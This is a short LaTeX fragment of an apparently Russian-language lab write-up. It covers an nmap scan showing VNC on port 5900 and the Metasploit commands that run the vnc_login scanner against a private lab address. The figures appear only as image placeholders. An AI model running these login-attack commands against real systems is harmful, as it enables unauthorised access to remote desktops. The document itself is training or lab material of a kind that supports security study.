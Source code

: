 \documentclass[10pt,a4paper]{report}
\begin{document}
\begin{figure}[h!]
	\begin{center}
		\includegraphics[width=0.65\textwidth]{Img/4}
		\caption{Сканирование с помощью nmap.}
		\label{Img:4}
	\end{center}
\end{figure}

VNC использует порт 5900. Название сервиса VNC (protocol 3.3).

Пытаемся найти эксплойты
\begin{verbatim}
search "VNC (protocol 3.3)
\end{verbatim}

\begin{figure}[h!]
	\begin{center}
		\includegraphics[width=0.65\textwidth]{Img/5}
		\caption{Результат поиска}
		\label{Img:5}
	\end{center}
\end{figure}

Настраиваем и запускаем эксплоит
\begin{verbatim}
use auxiliary/scanner/vnc/vnc_login
set RHOSTS 192.168.100.8
exploit
\end{verbatim}

\begin{figure}[h!]
	\centering
	\includegraphics[width=\textwidth]{Img/6}
	\caption{Результат работы vnc\_login}
	\label{Img:6}
\end{figure}
\end{document}

